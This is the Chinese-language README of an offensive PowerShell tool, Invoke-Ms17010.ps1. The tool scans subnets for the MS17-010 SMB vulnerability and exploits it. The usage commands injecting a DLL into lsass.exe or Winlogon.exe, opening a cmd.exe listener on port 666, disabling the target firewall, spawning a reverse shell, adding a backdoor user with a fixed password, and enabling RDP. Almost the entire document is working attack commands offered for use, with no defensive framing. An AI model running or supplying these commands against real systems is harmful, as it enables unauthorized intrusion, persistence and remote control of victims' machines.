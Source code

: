 ```
-m //加载模版
-process //指定要注入DLL的进程 默认为lsass.exe
-Port //指定攻击端口 默认445
-x //指定要攻击系统位数
-fs //批量探测内网是否存在ms17010
-target //指定扫描的IP段
```



批量监测是否包含MS17010漏洞

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -fs 1 -target 172.16.224.0-172.16.224.255
```

![image-20220818022507867](./Readme.assets/image-20220818022507867.png)

Check目标（必须执行 如果目标为XP系统则需要将OS指定为0，如果非XP系统则将OS指定为1），如果利用成功则返回系统位数，执行结果如下图所示

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -target 172.16.224.15 -OS 1
```

![image-20220818022852790](./Readme.assets/image-20220818022852790.png)

使用如下命令，可以在目标的666端口上面开启一个cmd.exe的监听并用NC进行连接

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64
```

![image-20220818023049851](./Readme.assets/image-20220818023049851.png)

如果对方开启了防火墙会导致我们不能直接获取shell，但是我们可以加载firewall模版来关闭目标的防火墙

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall
```

当然你可以在关闭目标防火墙之后 反弹shell

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall -process Winlogon.exe -Reshell 1
```

添加用户testoaa HjjLJjj@123

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m useradd
```

开启3389并在防火墙放通行

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m openrdp
```

